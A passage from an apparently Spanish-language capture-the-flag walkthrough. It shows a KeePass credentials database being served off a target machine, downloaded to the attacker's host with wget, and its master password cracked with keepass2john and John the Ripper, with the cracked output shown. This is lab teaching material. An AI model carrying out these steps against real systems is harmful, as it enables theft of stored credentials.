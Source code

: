 Vemos un archivo bastante interesante que es el siguiente:

```
/etc/keepass/credentialsDatabase.kdb
```

Vemos que es un archivo de credenciales en `keepass`, vamos a pasarnoslo a nuestra maquina `host` para intentar `crackear` la contraseña `maestra` de dicho archivo.

```shell
python3 -m http.server
```

Ahora desde la maquina `host` vamos a descargar dicho archivo.

```shell
wget http://<IP>:8000/credentialsDatabase.kdb
```

Ahora vamos a intentar `crackearlo`.

### Crackeo de KeePass

```shell
keepass2john credentialsDatabase.kdb > hash.keepass
```

```shell
john --wordlist=<WORDLIST> hash.keepass
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
EMINEM           (credentialsDatabase.kdb)     
1g 0:00:02:46 DONE (2025-05-09 05:45) 0.006006g/s 47.66p/s 47.66c/s 47.66C/s jeannette..melania
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que hemos conseguido la `clave maestra` de dicho archivo, por lo que vamos a meterlo para ver que contiene.

Desde un `Windows` instalaremos `KeePass` pero el `XC` no serviria, tiene que ser el normal, una vez instalado e importado la `DDBB` meteremos como clave maestra `EMINEM` y se nos desbloqueara de forma correcta.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
